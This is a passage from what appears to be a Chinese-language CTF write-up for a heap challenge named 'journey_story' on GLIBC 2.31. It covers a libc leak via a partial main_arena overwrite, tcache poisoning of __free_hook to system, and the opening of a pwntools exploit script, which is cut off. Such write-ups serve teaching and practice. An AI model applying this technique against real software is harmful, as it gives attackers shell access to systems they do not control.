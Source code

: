 由于 `\x00` 截断无法输出 fd. 因此在这里可以 先填充满 0x88 字节空间，然后再多填充一个 `\xe0`(main_arena 的尾部字节固定为 `\xe0`)，可以通过这种方式覆盖到 main_arena 的尾部为原字节，如下红圈所示，并且没有 `\x00` 截断

![dasctf](/image/qwbqsn/1.png)  

输出 chunk_2 获得 libc 后，由于这是 GLIBC 2.31 版本可以打 `__free_hook`，因此可以直接用以上思路，修改最前的一个 tcache bin fd 地址到 `__free_hook`

而后按顺序 Alloc 两个 chunk，一个作为被 free 后的 rdi 填充 `/bin/sh\x00`，一个用来修改 `__free_hook` 位置的内存到 `system` 函数，这样就可以调用 `system("/bin/sh")`，获取 shell 权限

```py
alloc(0x88, b'/bin/sh\x00')                 # 1
alloc(0x88, p64(libc.symbols['system']))    
delete(1)                                   # free 时 rdi 为 chunk_1 的地址，即为 /bin/sh 的地址
```

### [](#header-3)EXP

```py
# by leeya_bug

from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/journey_story')
libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug():
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -p {p.pid}' '''])
	p.interactive()

# ------------- 基本配置 -------------

def add(size: int, story: bytes) -> None:
	p.sendlineafter(b'Choose an option:', b'1')
	p.sendlineafter(b'Enter the size of your story', str(hex(size)).encode())
	p.sendlineafter(b'Enter your story', story)


def delete(index: int) -> None:
	p.sendlineafter(b'Choose an option:', b'2')
	p.sendlineafter(b'(0-31):', str(index).encode())
	
def update(index: int,  story: bytes) -> None:
	p.sendlineafter(b'Choose an option:', b'3')
	p.sendlineafter(b'(0-31):', str(index).encode())
	p.sendlineafter(b'Enter your updated story', story)
```